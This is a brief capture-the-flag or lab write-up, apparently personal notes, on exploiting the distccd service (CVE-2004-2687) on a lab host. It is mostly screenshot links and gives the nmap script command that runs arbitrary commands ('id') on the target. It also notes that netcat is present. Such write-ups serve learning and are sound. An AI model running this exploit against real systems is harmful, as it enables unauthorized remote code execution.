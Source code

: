**3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

- First i search in  nmap for a distccd script using find command  
![](../Attachemnts/Pasted%20image%2020231112145721.png)
i run 
```
sudo  less /usr/share/nmap/scripts/distcc-cve2004-2687.nse
```
![](../Attachemnts/Pasted%20image%2020231112150001.png)
```
sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-exec.cmd='id'"
```
![](../Attachemnts/Pasted%20image%2020231112151043.png)
![](../Attachemnts/Pasted%20image%2020231112151110.png)
 we passed in "id" in the payload it returned the id similarly with the hostname .  so basically , we are executing arbitrary commands on the target through this Nmap Script  
 ![](../Attachemnts/Pasted%20image%2020231112151903.png)
 and we do have netcat on the box
 ![](../Attachemnts/Pasted%20image%2020231112152228.png)
 

